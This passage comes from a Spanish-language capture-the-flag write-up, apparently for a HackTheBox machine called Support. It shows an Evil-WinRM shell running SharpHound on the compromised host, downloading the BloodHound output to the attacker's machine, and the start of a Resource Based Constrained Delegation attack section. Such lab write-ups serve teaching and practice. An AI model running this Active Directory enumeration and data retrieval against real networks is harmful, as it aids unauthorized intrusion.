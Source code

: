 ~~~ bash
*Evil-WinRM* PS C:\Users\support\Documents> .\SharpHound.exe

*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/14/2025   2:51 PM          26075 20250414145832_BloodHound.zip
-a----         4/14/2025   2:42 PM        1557504 SharpHound.exe
*Evil-WinRM* PS C:\Users\support\Documents> download 20250414145832_BloodHound.zip support_bloodhound.zip
                                        
Info: Downloading C:\Users\support\Documents\20250414145832_BloodHound.zip to support_bloodhound.zip
                                        
Info: Download successful! 
~~~

Cargaremos este archivo `.zip` en BloodHound, pero no sin antes hacerle un renombrado para identificarlo mejor, además podemos mover el archivo a una ruta genérica para encontrarlo más fácilmente

~~~ bash
cp support_bloodhound.zip /home/incommatose/Documents
~~~


## Resource Based Constrained Delegation Attack (RBCD)

Una vez cargada la información, buscaremos a la cuenta `support@support.htb`, haremos clic en `Inbound Object Controls` en la barra lateral derecha

![image-center](/assets/images/posts/support-rbcd.png){: align-center}
